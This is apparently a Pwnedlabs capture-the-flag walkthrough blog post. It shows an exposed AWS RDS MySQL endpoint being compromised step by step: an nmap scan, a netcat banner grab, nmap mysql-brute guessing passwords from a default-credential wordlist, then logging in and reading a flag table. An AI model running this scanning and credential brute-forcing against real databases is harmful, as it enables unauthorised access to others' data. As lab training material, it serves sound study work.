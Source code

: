 ```yaml
---
author: Nithissh S
pubDatetime: 2024-02-16
modDatetime: 2024-02-16
title: Pillage Exposed RDS instances - Pwnedlabs walkthrough
slug: pillage-exposed-rds-instances
featured: false
draft: false
tags:
  - Pwnedlabs
  - Cloud Pentest
description:
  As an initial path we have been provided with a RDS instance URL and In this blog, we will see how with a simple hostname we can able to comprise the database 
---
```



The scenario here is in the backdrop of rising cybersecurity threats, with chatter on Telegram channels hinting at data dumps and Pastebin snippets exposing snippets of configurations, Huge Logistics is taking no chances. They've enlisted your team's expertise to rigorously assess their cloud infrastructure. Armed with a list of IP addresses and endpoints, a lead emerged — an RDS endpoint: `exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`. Your mission? Dive deep into this endpoint's security, and identify any security issues before threat actors do.

  

### Understand what is RDS

Amazon RDS is defined as a Relation database services in more of distributed way.. Kind of service offering from AWS to simply the setup, operational changes and scaling of application and one thing to remember is Amazon RDS supports PostgreSQL, MySQL, Maria DB, Oracle, SQL Server, and Amazon Aurora
  

## Approaching for a solution 

With the following RDS instance URL: [exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") we will do a simple nmap scan on top 1000 ports and as a result, we can see that port 3306 is open and runs a mysql server ⁸

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nmap -sV -Pn --top 1000 -vvv exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:00 PST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 21:00
Completed Parallel DNS resolution of 1 host. at 21:00, 0.29s elapsed
DNS resolution of 1 IPs took 0.29s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:00
Scanning exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68) [1000 ports]
Discovered open port 3306/tcp on 16.171.94.68
Completed Connect Scan at 21:01, 42.93s elapsed (1000 total ports)
Initiating Service scan at 21:01
Scanning 1 service on exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Completed Service scan at 21:01, 25.40s elapsed (1 service on 1 host)
NSE: Script scanning 16.171.94.68.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.35s elapsed
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up, received user-set (0.17s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com
Scanned at 2024-02-16 21:00:26 PST for 69s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
3306/tcp open  mysql?  syn-ack
```

  

Look into banner grabbing through netcat, we found that `mysql_native_password`  is supported and what that means is it is authentication mechanism used in mysql when you enter the password it get converted into some kind of kind hash using a method called password native hashing and later when the user enters the password again it is converted into hash format and compared with the stored hash.. If it is validated and verified, user will get loggedin 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nc exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com 3306
J
8.0.32��
       QD]R<�����bAd;F1B*mysql_native_password2
```

  

We can also do the username and password manually but it is time consuming and so, we are automating it using nmap’s mysql-brute script for that we need to do a similiar setups like firstly need a wordlist and for that we are utilizing seclists and setup the delimiter between of the wordlist because it is in the format of `root:root`  where the nmap script supports if it is in a particular format `root/root` 

  

```sh
r4y@DESKTOP-3KBF4H7:/tmp$  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -O mysql-creds.txt
--2024-02-16 21:30:46--  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 343 [text/plain]
Saving to: ‘mysql-creds.txt’

mysql-creds.txt               100%[=================================================>]     343  --.-KB/s    in 0s

2024-02-16 21:30:46 (51.9 MB/s) - ‘mysql-creds.txt’ saved [343/343]

r4y@DESKTOP-3KBF4H7:/tmp$ sed -i 's/:/\//g' mysql-creds.txt
r4y@DESKTOP-3KBF4H7:/tmp$ cat mysql-creds.txt
root/mysql
root/root
root/chippc
admin/admin
root/
root/nagiosxi
root/usbw
cloudera/cloudera
root/cloudera
root/moves
moves/moves
root/testpw
root/p@ck3tf3nc3
mcUser/medocheck123
root/mktt
root/123
dbuser/123
asteriskuser/amp109
asteriskuser/eLaStIx.asteriskuser.2oo7
root/raspberry
root/openauditrootuserpassword
root/vagrant
root/123qweASD#
```

  

With the nmap, we can bruteforce with the `mysql-brute`  script and additonally you can pass the wordlist which we have edited through `brute.credfile` params.. After nmap scan is completed, we found ou valid credentials for the database which is `dbuser:123`

  

```sh
r4y@DESKTOP-3KBF4H7:/tmp$ nmap -Pn -p3306 --script=mysql-brute --script-args brute.delay=10,brute.mode=creds,brute.credfile=mysql-creds.txt exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:35 PST
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up (0.16s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute:
|   Accounts:
|     dbuser:123 - Valid credentials
|_  Statistics: Performed 23 guesses in 33 seconds, average tps: 0.8

Nmap done: 1 IP address (1 host up) scanned in 33.24 seconds
```

  

In mysql commandline on to your host machine and with the following we can able to connect to the host [`exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") with the username as `dbuser` and our password will be `123`

  

```sh
r4y@DESKTOP-3KBF4H7:/tmp$ mysql -h exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com -u dbuser -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 311539
Server version: 8.0.32 Source distribution

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

Let’s check the permissions or grants of `dbuser`  with the following query `SHOW GRANTS FROM “dbuser”;`  where it will show what it has access to and we have access `user_info` database and in the you can enumerate users table or flag as well

  

```sh
mysql> SHOW GRANTS FOR "dbuser"
    -> ;
+-----------------------------------------------------+
| Grants for dbuser@%                                 |
+-----------------------------------------------------+
| GRANT USAGE ON *.* TO `dbuser`@`%`                  |
| GRANT SELECT ON `user_info`.`flag` TO `dbuser`@`%`  |
| GRANT SELECT ON `user_info`.`users` TO `dbuser`@`%` |
+-----------------------------------------------------+
3 rows in set (0.18 sec)
```

  

Let’s change the database by entering query which is `use user_info;`  and once the database is changed, try disclosing the table susing `show tables`

  

```sh
mysql> use user_info;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_user_info |
+---------------------+
| flag                |
| users               |
+---------------------+
2 rows in set (0.18 sec)
```

  

We got our flag with the following query `SELECT * FROM flag`  

  

```sh
mysql> select * from flag
    -> ;
+----------------------------------+
| flag                             |
+----------------------------------+
| e1c342d58b6933b3e0b5078174fd5a62 |
+----------------------------------+
1 row in set (0.17 sec)
```